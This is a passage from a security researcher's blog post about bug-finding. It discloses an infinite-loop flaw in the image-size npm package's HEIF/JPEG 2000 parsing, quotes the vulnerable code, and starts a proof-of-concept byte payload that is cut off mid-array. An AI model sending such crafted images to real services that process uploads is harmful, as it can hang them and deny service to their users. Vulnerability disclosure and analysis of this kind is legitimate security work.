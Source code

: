 Along with literally hundreds of real-world findings across around 20 well-known open source codebases, there were some failures. Without using some old codebase as a test-case, it is difficult to test for false negatives, as any old bug may have a CVE, which the scanner may simply detect and report on. I’m generally somebody that has no problem with sitting on a 0day for a rainy day, so let me detail just one of them.

The [image-size](https://www.npmjs.com/package/image-size) npm package is a package “to get dimensions of any image file or buffer”. Imagine you’re a backend service at Facebook and you need to get the dimensions of a user-uploaded image, this might be what you would use. It currently has 14.5 million weekly downloads.

During a manual audit some time ago, I discovered that it suffers from an infinite loop when parsing HEIF and JPEG 2000 images. The broken code is quite simple. `findBox` may return with `len=0`:

```
export function findBox(
  input: Uint8Array,
  boxName: string,
  currentOffset: number,
) {
  while (currentOffset < input.length) {
    const box = readBox(input, currentOffset)
    if (!box) break
    if (box.name === boxName) return box     -----   [ returns box with box.size === 0 ]
[..]
  }
}

```

meaning a value used inside a while-loop will not be incremented, leading to an infinite loop:

```
function extractPartialStreams(input: Uint8Array): Uint8Array[] {
  const partialStreams: Uint8Array[] = []
  let offset = 0
  while (offset < input.length) {
    const jxlpBox = findBox(input, 'jxlp', offset)
    if (!jxlpBox) break
    partialStreams.push(
      input.slice(jxlpBox.offset + 12, jxlpBox.offset + jxlpBox.size),
    )
    offset = jxlpBox.offset + jxlpBox.size  --------   [ jxlpBox.size === 0 ]
  }
  return partialStreams
}

```

An easy PoC is as following:

```
// mkdir 2.0.2
// cd 2.0.2/
// npm i image-size@2.0.2
const {imageSize} = require("image-size");

const PAYLOAD = new Uint8Array([\
  // ftyp (size=16)\
  0x00,0x00,0x00,0x10, 0x66,0x74,0x79,0x70,\
  0x61,0x76,0x69,0x66, 0x00,0x00,0x00,0x00,\
  // meta (size=36)\
  0x00,0x00,0x00,0x24, 0x6D,0x65,0x74,0x61,\
  0x00,0x00,0x00,0x00,\
  // iprp (size=8)\
  0x00,0x00,0x00,0x08, 0x69,0x70,0x72,0x70,\
  // ipco (size=20)\
  0x00,0x00,0x00,0x14, 0x69,0x70,0x63,0x6F,\
```